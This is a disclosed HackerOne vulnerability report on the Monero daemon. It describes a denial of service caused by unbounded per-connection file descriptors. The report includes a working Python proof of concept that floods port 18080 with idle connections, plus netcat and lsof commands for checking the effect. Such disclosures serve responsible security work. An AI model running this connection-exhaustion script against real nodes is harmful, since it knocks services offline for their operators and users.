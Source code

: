 # Excessive Resource Usage

## Report Details
- **Report ID**: 543782
- **URL**: https://hackerone.com/reports/543782
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2019-04-20T08:09:39.498Z
- **Disclosed**: 2019-07-03T00:12:59.562Z

## Reporter
- **Username**: talko
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: monero

## Vulnerability Information
## Summary:
Unbounded resource usage due to open one file descriptor per connection, Python script below is effectively a threadbomb on the destination and uses all available memory on the server, clients not sending anything are never terminated.

## Steps To Reproduce:
Up our daemon
```
% monerod
```
Check if peer accepting connection
```
% nc -vz 127.0.0.1 18080
Connection to 127.0.0.1 18080 port [tcp/*] succeeded!
```
Create python script ex: resus.py
```python
import resource
import socket
import time

resource.setrlimit(resource.RLIMIT_NOFILE, (131072, 131072))

conn = []

while True:
    try:
        conn.append(socket.create_connection(("127.0.0.1", 18080)))
    except BaseException as err:
        print(err)
        break

print(len(conn))

while True:
    time.sleep(1)
```
run the script as ROOT(required for setting RLIMIT)
```
% sudo python resus.py
```
wait up 2 to minutes then run netcat again to check if our socket request bomb deny the service
```
% nc -vz 127.0.0.1 18080
```
now it's completely hang, during waiting you can run command ```lsof -i tcp``` to see lot of Monero connections

## Impact

Denial of Service(Allocation of Resources Without Limits or Throttling)

## Attachments
No attachments
